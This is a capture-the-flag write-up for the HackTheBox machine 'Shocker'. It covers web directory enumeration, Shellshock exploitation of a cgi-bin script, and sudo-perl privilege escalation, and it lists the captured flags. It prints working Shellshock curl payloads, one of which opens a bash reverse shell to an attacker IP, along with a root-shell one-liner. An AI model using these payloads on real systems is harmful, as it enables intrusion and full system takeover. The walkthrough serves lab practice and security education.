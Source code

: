 ```yaml
---
title: HackTheBox - Shocker
categories: [HackTheBox, HTB-Linux]
date: 2022-08-20
tags: [exploit/shell-shock, linux-priv-esc/sudo/gtfo-bin ]
img_path: /Writeups/HackTheBox/Linux/Shocker/images/
image:
  src: Pasted%20image%2020220820044938.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
This machine begins w/ a web directory enumeration, finding a `cgi-bin/` directory, and by further enumerating the found directory (`cgi-bin/`), a bash script is found, allowing us to use an exploit called shellshock to execute commands, obtaining a low-privilege shell/`shelly `shell.

On the system, the `shelly` has a sudoers entry that allows `shelly` to execute `perl` as `root`, which is exploitable allowing us to spawn a `root` shell.

---

| Column       | Details     |
| ------------ | ----------- |
| Box Name     | Shocker     |
| IP           | 10.10.10.56 |
| Points       | -           |
| Difficulty   | Easy        |
| Creator      | [mrb3n](https://www.hackthebox.com/home/users/profile/2984)            |
| Release Date |   30-Sep-2017          |


# Recon

## TCP/80 (HTTP)
### FFUF
```
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```
- `cgi-bin` directory is found

# Initial Foothold

## TCP/80 (HTTP) - Shell Shock
1. Since the machine is called `Shocker` and we find a `cgi-bin` directory, it is very likely our initial foothold is obtained via [shellshock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/)
2. Enumerate `cgi-bin` directory, [specifying scripting language extensions](https://en.wikipedia.org/wiki/Scripting_language)
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# ffuf -u http://shocker.htb/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php'
	
	user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
	```
	- `user.sh`
3. Attempt shellshock on `/cgi-bin/user.sh`
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://shocker.htb/cgi-bin/user.sh
	shelly
	
	```
4. Obtain a shell
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' http://shocker.htb/cgi-bin/user.sh
	```
	![](Pasted%20image%2020220820043637.png)
5. User Flag
	![](Pasted%20image%2020220820043857.png)
	- `2ec24e11320026d1e70ff3e16695b233`

# Privilege Escalation

## Root - Via SUDO GTFOBins 
1. Check `shelly` sudo access
	- `/usr/bin/perl`
		- Perl has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#sudo)
2. Exploit and Obtain Root Flag
	```
	sudo perl -e 'exec "/bin/sh";'
	```
	![](Pasted%20image%2020220820044027.png)
	- `52c2715605d70c7619030560dc1ca467`
3. Change password of `root` & SSH to obtain `root` user
	```
	# passwd  
	Enter new UNIX password: 
	Retype new UNIX password: 
	```
	![](Pasted%20image%2020220820044452.png)

